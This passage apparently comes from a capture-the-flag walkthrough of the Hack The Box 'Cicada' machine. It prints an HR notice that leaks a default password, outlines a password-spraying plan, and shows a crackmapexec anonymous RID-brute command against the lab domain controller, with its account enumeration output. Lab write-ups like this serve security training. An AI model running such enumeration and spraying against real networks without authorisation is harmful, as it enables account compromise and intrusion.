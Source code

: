 ```bash
cat Notice\ from\ HR.txt 

Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: Cicada$M6Corpb*@Lp#nZp!8

To change your password:

1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp
```

Now here we have some default credentials. In active directory environments we can use crackmapexec or similar tools to brute account ids then check that password against all users. In an actual engagement this might take some time depending on the amount of machines or devices on a network, here luckily there is 1 machine and a handful+1 of users.

```bash
crackmapexec smb cicada.htb -u anonymous -p '' --rid-brute
SMB         10.129.23.187   445    CICADA-DC        [*] Windows 10.0 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.23.187   445    CICADA-DC        [+] cicada.htb\anonymous: 
SMB         10.129.23.187   445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.23.187   445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.129.23.187   445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.129.23.187   445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB         10.129.23.187   445    CICADA-DC        512: CICADA\Domain Admins (SidTypeGroup)
SMB         10.129.23.187   445    CICADA-DC        513: CICADA\Domain Users (SidTypeGroup)
SMB         10.129.23.187   445    CICADA-DC        514: CICADA\Domain Guests (SidTypeGroup)
SMB         10.129.23.187   445    CICADA-DC        515: CICADA\Domain Computers (SidTypeGroup)
SMB         10.129.23.187   445    CICADA-DC        516: CICADA\Domain Controllers (SidTypeGroup)
SMB         10.129.23.187   445    CICADA-DC        517: CICADA\Cert Publishers (SidTypeAlias)
SMB         10.129.23.187   445    CICADA-DC        518: CICADA\Schema Admins (SidTypeGroup)
SMB         10.129.23.187   445    CICADA-DC        519: CICADA\Enterprise Admins (SidTypeGroup)
SMB         10.129.23.187   445    CICADA-DC        520: CICADA\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.23.187   445    CICADA-DC        521: CICADA\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.23.187   445    CICADA-DC        522: CICADA\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.23.187   445    CICADA-DC        525: CICADA\Protected Users (SidTypeGroup)
SMB         10.129.23.187   445    CICADA-DC        526: CICADA\Key Admins (SidTypeGroup)
SMB         10.129.23.187   445    CICADA-DC        527: CICADA\Enterprise Key Admins (SidTypeGroup)
```